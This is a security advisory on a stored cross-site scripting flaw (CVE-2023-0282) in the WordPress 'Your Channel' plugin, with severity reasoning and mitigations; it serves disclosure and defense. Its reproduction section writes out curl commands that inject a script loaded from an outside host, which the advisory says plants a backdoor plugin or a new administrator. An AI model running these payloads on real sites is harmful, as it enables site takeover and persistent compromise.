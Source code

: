 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for Wordpress"
categories: wordpress
author:
- TouchWeb.fr
- 202 ecommerce
- Friends-Of-Presta.org
meta: "CVE,Wordpress"
severity: "critical (9.0)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-03-03
* **Vendor**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.0)

Vulnerability by design applied on Your Channel's plugin. This will work on any plugins which suffer of a XSS T2 F2B.

## Description

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the Wordpress CMS, following the [Prestashop related publication](https://friends-of-presta.github.io/security-advisories/modules/2023/02/07/stored-xss.html)

To highlight the criticality of XSS and give us the means to mitigate their effects, TouchWeb conducted its research based on the vulnerability of the [Your Channel plugins](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62), which in versions prior to 1.2.2 has a stored XSS.

It has been wrongly tag as MEDIUM gravity instead of **CRITICAL** gravity : [CVE-2023-0282](https://nvd.nist.gov/vuln/detail/CVE-2023-0282) like many others XSS T2 F2B :
- [WP-SCAN Unauthenticated Stored XSS](https://wpscan.com/search?text=unauthenticated%20stored&vuln_type=14)
- [WP-SCAN Subscriber+ Stored XSS](https://wpscan.com/search?text=subscriber%20&vuln_type=14)

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H)

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.0+/10 since it unlocks design's vulnerabilities (users's administration / plugins's administration)

For others XSS Type 2 F2F/B2B/B2F (front to front / back to back / back to front), you can preserve a low to medium gravity score. 

Nevertheless, be warn that on Wordpress, XSS of type 1 can be critical if it targets a backoffice due to native predictable backoffice link (natively /wp-admin/).

### Plugin presentation

The [Your channel](https://fr.wordpress.org/plugins/yourchannel/) plugin allow, as subscriber (the lowest native role on Wordpress), to post videos.

The video field is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* yrc_lang[Videos] entered: <strong>my name</strong>
* result: my name will be displayed in bold in the back office in Your Channel's settings.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for Wordpress 4.0+ (we tested for 6.1.1).
* Script A allows injecting a classic-editor plugin containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator (we cannot "disabled it" as PS POC B on creation because WP do not allow this).

**DO NOT TEST IT IN PRODUCTION.**


### How to reproduce?

* We installed Wordpress 6.1.1
* We installed the [yourchannel plugin zip](https://github.com/WPPlugins/yourchannel/archive/refs/tags/0.9.1.zip).
* We allow guest on Wordpress to be able to sign up then create an account as guest
* Login with the account you created as guest and reproduce [this POC](https://wpscan.com/vulnerability/93693d45-5217-4571-bae5-aab8878cfe62) :  by replacing `><script>alert(1)</script>` by `><scrip src=//1j.vc/wp_a.js>` or `><scrip src=//1j.vc/wp_b.js>`

```
curl -v --cookie-jar cookie.txt  -X POST -d "log=YOUR_SUBSCRIBER_LOGIN&pwd=YOUR_SUBSCRIBER_PASSWORD&wp-submit=Log+In" "https://preprod.XXX/wp-login.php" \
&& curl -v --cookie cookie.txt -X POST -d "action=yrc_save_lang&yrc_lang[Videos]=%22%3E%3Cscript%20src%3Dhttps%3A%2F%2F1j.vc%2Fwp_a.js%3E%3C%2Fscript%3E" -H "Content-Type: application/x-www-form-urlencoded" https://preprod.XXX/wp-admin/admin-ajax.php
```

* As administrator, return to the back office on plugin's configuration page (Settings > Your Channel)


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags
* Limit to the strict minimum the length's value in database - a database field which allow 10 characters (`varchar(10)`) is far less dangerous than a field which allow 40+ characters (use cases which can exploit fragmented XSS payloads are very rare)
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files) or being called in XHR transactions (Ajax).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.


### How CMS's core team can help ecosystem about CSP headers ?

If you already setup CSP headers, you already know that it's a plague on our E-Commerce ecosystem with tens externals dependancies (cariers / banks / tracking / remarketing / ...), to setup and more over to maintain over time.

This chaos generate front/back breaks on updates which make it stressfull for all professionnals trying to strength their protection against XSS.

It would be very appreciated if core team constrains plugins developpers to list with strictness their externals dependancies in a normative way which permit a professional generation of CSP headers - not based on chaotic front/back exploration.
